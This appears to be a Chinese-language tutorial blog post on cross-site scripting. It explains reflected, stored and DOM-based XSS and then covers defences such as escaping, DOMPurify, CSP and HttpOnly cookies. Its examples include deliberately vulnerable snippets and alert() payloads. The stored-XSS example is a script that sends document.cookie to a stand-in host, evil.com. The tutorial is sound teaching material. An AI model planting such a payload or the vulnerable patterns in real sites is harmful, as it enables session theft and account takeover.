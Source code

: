 ```yaml
---
title: XSS
date: 2025-03-26 16:13:01
tags:
---
```

XSS（Cross-Site Scripting，跨站腳本攻擊）是一種 Web 安全漏洞，攻擊者透過在網站中注入惡意 JavaScript，使該腳本在其他使用者的瀏覽器中執行，從而竊取用戶資訊、控制瀏覽行為或進一步發動攻擊。

---

## **XSS 的攻擊類型**

### **1. 反射型 XSS（Reflected XSS）**
攻擊者將惡意腳本放入 **URL 參數或表單輸入**，當受害者點擊惡意連結或提交表單時，惡意 JavaScript 會被伺服器回應並在瀏覽器中執行。

#### **範例**
假設某個網站接受 `query` 參數並直接顯示在頁面上：
```html
<p>搜尋結果：<script>document.write(decodeURIComponent(location.search))</script></p>
```
如果攻擊者讓受害者點擊：
```
https://example.com/search?query=<script>alert('你被 XSS 攻擊了!')</script>
```
那麼當受害者訪問該 URL，瀏覽器會執行 `alert('你被 XSS 攻擊了!')`，攻擊成功。

---

### **2. 儲存型 XSS（Stored XSS）**
攻擊者將惡意腳本 **儲存在伺服器上**（如留言板、聊天室、論壇），其他使用者造訪該頁面時，惡意腳本會自動執行。

#### **範例**
攻擊者在留言區發送：
```html
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```
當其他使用者查看這條留言時，瀏覽器會執行該 JavaScript，並將用戶的 Cookie 傳送給攻擊者，導致帳號被盜。

---

### **3. DOM 型 XSS（DOM-Based XSS）**
攻擊者利用 JavaScript 操作網頁 DOM，改變頁面內容並執行惡意腳本，通常不經過伺服器處理。

#### **範例**
```html
<script>
    var input = location.hash.substr(1); // 取得 URL 的 hash 值
    document.getElementById('output').innerHTML = input;
</script>
```
當用戶訪問：
```
https://example.com/#<script>alert('XSS!')</script>
```
瀏覽器會直接執行 `alert('XSS!')`，攻擊成功。

---

## **XSS 的風險**
- **竊取使用者 Cookie，冒充身份（Session Hijacking）**
- **記錄按鍵、竊取密碼**
- **進行釣魚攻擊，顯示偽造的登入頁面**
- **發送惡意請求，影響網站功能**
- **植入後門，長期監控受害者**

---

## **如何防禦 XSS**

### **1. 輸入驗證與過濾**
- 移除 `<script>`、`onerror`、`javascript:` 這類惡意標籤或屬性。
- 限制允許的 HTML 標籤，例如使用 **HTML Purifier**（PHP）或 **DOMPurify**（JavaScript）。

### **2. 輸出時進行 HTML Escape**
- **永遠不要直接插入用戶輸入**，應對 HTML 內容進行編碼：
  ```html
  <p>使用者輸入：&lt;script&gt;alert('XSS')&lt;/script&gt;</p>
  ```
  - 在後端（Python Flask）：`escape(user_input)`
  - 在前端（JavaScript）：`.textContent = user_input`

### **3. 使用 CSP（Content Security Policy）**
- 禁止內嵌腳本，防止 XSS 攻擊：
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self'
  ```

### **4. 使用 HttpOnly Cookie**
- 防止 JavaScript 讀取 Cookie，降低 Session 被竊取的風險：
  ```http
  Set-Cookie: session_id=abc123; HttpOnly; Secure
  ```

---

## **結論**
XSS 是一種透過注入惡意 JavaScript 來攻擊網站的漏洞，常見類型包括：
1. **反射型 XSS**（需要誘導受害者點擊惡意連結）。
2. **儲存型 XSS**（惡意腳本存儲在伺服器上，自動影響所有使用者）。
3. **DOM 型 XSS**（透過 JavaScript 操作 DOM 來執行攻擊）。

有效的防禦措施包括：
- **輸入過濾**（防止惡意代碼進入系統）。
- **輸出編碼**（避免 JavaScript 被直接執行）。
- **CSP 安全策略**（防止不受信任的腳本執行）。
- **HttpOnly Cookie**（防止 JavaScript 竊取 Session）。
